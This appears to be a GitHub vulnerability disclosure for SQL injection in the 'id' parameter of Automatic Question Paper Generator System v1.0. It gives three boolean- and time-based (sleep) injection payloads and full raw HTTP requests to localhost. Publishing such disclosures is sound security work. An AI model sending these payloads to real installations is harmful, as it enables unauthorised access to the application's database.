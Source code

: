 # Automatic Question Paper Generator System v1.0 has SQL injection

BUG_Author:0019FF

Website source address:https://www.sourcecodester.com/php/15190/automatic-question-paper-generator-system-phpoop-free-source-code.html

Vulnerability File: /aqpg/users/question_papers/manage_question_paper.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and 999=999 and 'o'='o

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20999=999%20and%20%27o%27=%27o HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The sql statement is executed correctly

![image](https://github.com/19FF/bug_report/blob/main/sql1.png)

Payload2:id=1' and 999=996 and 'o'='p

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20999=996%20and%20%27o%27=%27p HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/19FF/bug_report/blob/main/sql2.png)

Payload3:id=1' and (select 9 from (select(sleep(15)))b) and 't'='t

```
GET /aqpg/users/question_papers/manage_question_paper.php?id=1%27%20and%20(select%209%20from%20(select(sleep(15)))b)%20and%20%27t%27=%27t HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gqm4opdrfvm9njhrtmcivvn20b
Connection: close
```

The server response time is 15 seconds

![image](https://github.com/19FF/bug_report/blob/main/sql3.png)
